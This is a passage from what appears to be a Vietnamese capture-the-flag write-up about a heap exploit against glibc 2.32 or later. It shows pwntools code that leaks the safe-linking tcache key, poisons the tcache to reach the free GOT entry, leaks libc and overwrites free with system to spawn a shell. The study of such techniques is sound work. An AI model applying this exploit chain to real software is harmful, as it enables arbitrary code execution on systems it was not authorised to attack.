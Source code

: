 - cách khai thác vẫn như cũ, vấn đề ở đây là từ bản 2.32 trở đi các chunk được free thì fd pointer của chunk đó không chứa địa chỉ liền kề trong tcache nữa mà là 1 key với key được tính bằng cách:
```
#define PROTECT_PTR(pos, ptr) \
  ((__typeof (ptr)) ((((size_t) pos) >> 12) ^ ((size_t) ptr)))
```
- pos là chunk được free còn ptr là chunk đã được free trước đó trong cùng 1 size
- sau khi tạo các chunk và gây lỗi overflow thì nhiệm vụ tiếp theo của chúng ta là leak giá trị key này ra, chúng ta nên leak chunk cuối cùng trong tcache vì nó là chunk được free đầu tiên do đó ptr có giá trị là 0
```
payload = b'a'*60 + b'abcd'
note(2, 0, size_t, payload)
choice(0, 4)
r.recvuntil(b'abcd')
out = r.recv(2)
print(out)
```
- do là key của chunk cuối nên nó sẽ tương ứng với (pos >> 12) vì khi xor với 0 thì giá trị không đổi, do đó ta có thể dùng giá trị key này để tìm chunk tương ứng với công thức trên
```
ptr = newkey ^ (pos >> 12) = newkey ^ key
```
- vẫn địa chỉ 0x404000 là địa chỉ mà ta chọn
```
key = u32(out + b'\x00'*2)
new_chunk = key ^ (exe.got['free']-0x18)
print(hex(new_chunk))
```
- ta đã có được key của chunk mới
- bây giờ thì áp dụng kỹ thuật cũ để khai thác thôi
- tạo chunk fake -> leak libc -> overwrite free got
```
payload = b'a'*24 + p64(0x31) + p64(new_chunk)
note(2, 0, size_t, payload)

note(1, 1, size_t, b'/bin/sh\x00')
note(1, 2, size_t, b'a'*16)
note(1, -3, 48)

choice(2, 4)
r.recv(22)
libc_leak = r.recv(6)
libc.address = u64(libc_leak + b'\x00'*2) - 0x1e6ef0
print(hex(u64(libc_leak + b'\x00'*2)))
print(hex(libc.address))

payload = b'a'*0x18 + p64(libc.sym['system'])
note(2, 2, size_t, payload)
choice(1)
```
- ![Screenshot from 2023-02-08 17-41-09](https://user-images.githubusercontent.com/113702087/217507273-45c547e1-76c7-45db-bb8d-cae91fa407eb.png)
